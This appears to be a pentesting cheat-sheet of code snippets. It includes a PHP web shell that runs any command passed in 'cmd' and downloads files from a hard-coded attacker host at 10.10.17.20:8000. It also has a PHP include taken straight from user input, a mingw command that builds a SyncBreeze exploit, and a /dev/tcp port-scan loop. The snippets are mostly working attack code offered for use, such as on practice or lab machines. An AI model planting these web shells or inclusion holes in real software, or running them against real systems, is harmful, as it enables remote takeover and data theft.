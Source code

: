 - RCE and RFI via PHP 
  ```php
    <?php 
      if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.17.20:8000/" . $_REQUEST['fupload']));
      }
      if (isset($_REQUEST['cmd'])){
        echo system($_REQUEST["cmd"]);
      }	
    ?>
  ```
- mkt script, to create a pentesting folder environment
  ```bash
    #!/bin/bash
    if [[ $# -eq 1 ]]; then
      mkdir -p $1/{nmap,content,exploits,scripts}
      exit 0
    else
      echo "The name of the folder is needed"
      exit 1
    fi
  ```
- Execute PHP from another file
  ```php
  <?php
      $file = $_GET["file"];
      include $file; ?>
    ```

- Compile **C** binaries with Windows dependences with **mingw-64**
  ```bash
  i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
  ```
  
- Run cross-compiled binary (binary compiled to run in Windows):
  ```bash
  wine exploit.exe
  ```
- Bash port scanning
```bash
#!/bin/bash
host=10.5.5.11
for port in {1..65535}; do
  timeout .1 bash -c "echo >/dev/tcp/$host/$port" &&
    echo "port $port is open"
done
echo "Done"
```
- Powershell Path

![image](https://user-images.githubusercontent.com/43812413/202171576-ac20e99c-2c35-430e-844c-bc12dcb1c05e.png)

  
